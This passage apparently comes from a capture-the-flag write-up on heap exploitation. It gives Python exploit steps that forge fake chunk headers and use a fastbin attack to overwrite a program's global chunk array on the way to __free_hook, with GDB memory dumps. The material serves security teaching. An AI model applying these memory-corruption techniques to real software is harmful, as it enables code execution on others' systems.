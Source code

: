 ```python
add(0x58, 'A'*8) # 10
```
```c
// __free_hook = 0x7fb3d8f0a7a8
gef➤  x/10gx 0x7fb3d8f0a7a8 - 0x1100 + 0x70 - 0x5 - 0x10
0x7fb3d8f09703 <stderr+3>:      0xf0962000007fb3d8      0xf088e000007fb3d8 <-.
0x7fb3d8f09713 <stdin+3>:       0xb64b7000007fb3d8      0x0000000000000061   |
0x7fb3d8f09723: 0x4141414141414141      0x0000000000000000   ^   looks like top chunk
0x7fb3d8f09733: 0x0000000000000000      0x0000000000000000   |
0x7fb3d8f09743: 0x0000000000000000      0x0000000000000000 theres our new chunk header
```

Now we take a quick detour. I realized that the number of chunks we'd need to allocate was way over 19, which is what the program limits us to. However, I realized it was very easy to forge a fake chunk right above the global array of chunks, and then get a chunk there using a fastbin attack in order to overwrite a bunch of indexes of that array with NULL. Having PIE disabled makes this very easy.
```python
# Next, my plan was to do enough mallocs so we can reach free_hook from free_hook-0x1100 ...
# The program however has a limit of 19 chunks
# I bypass it by getting a chunk right above the global array of chunks
# I then zero out the first 11 indexes of that array

# Address of the fake chunk above the array
fake_chunk_above_array = 0x602130

# Change the name so that it places a fake chunk header right at that address from above
reintroduce(p64(0) + p64(0x61) + p64(0)*11 + p64(0x21) + p64(0)*17 + p64(0x61))

# Free the fake_chunk at the name
free(6)

# Overwrite its fd with the address of our fake chunk above the global array
reintroduce(p64(0) + p64(0x61) + p64(fake_chunk_above_array))

# Chunk 12 will be above the global array, zero out a bunch of indexes
add(0x58, 'A'*0x58) # 11
add(0x58, p64(0)*11) # 12, Free up indexes 0-10

# Now there is a reference to fake_chunk (at our name variable) at idx 11
# This can easily be verified by viewing the array in gdb
```
```c
gef➤  x/100gx 0x602040
0x602040:       0x0000000000000000      0x0000000000000061 <- name variable
0x602050:       0x4141414141414141      0x4141414141414141
...
0x602090:       0x4141414141414141      0x4141414141414141
0x6020a0:       0x4141414141414141      0x0000000000000021 <- fake chunk allows us to free
0x6020b0:       0x0000000000000000      0x0000000000000000
...
0x602120:       0x0000000000000000      0x0000000000000000
0x602130:       0x0000000000000000      0x0000000000000061 <- chunk above global array
0x602140:       0x0000000000000000      0x0000000000000000 <- global array
0x602150:       0x0000000000000000      0x0000000000000000 <- We made NULL
0x602160:       0x0000000000000000      0x0000000000000000 <- We made NULL
0x602170:       0x0000000000000000      0x0000000000000000 <- We made NULL
0x602180:       0x0000000000000000      0x0000000000000000 <- We made NULL
0x602190:       0x0000000000000000      0x0000000000602050 <- idx 11
0x6021a0:       0x0000000000602140      0x0000000000000000
...
```
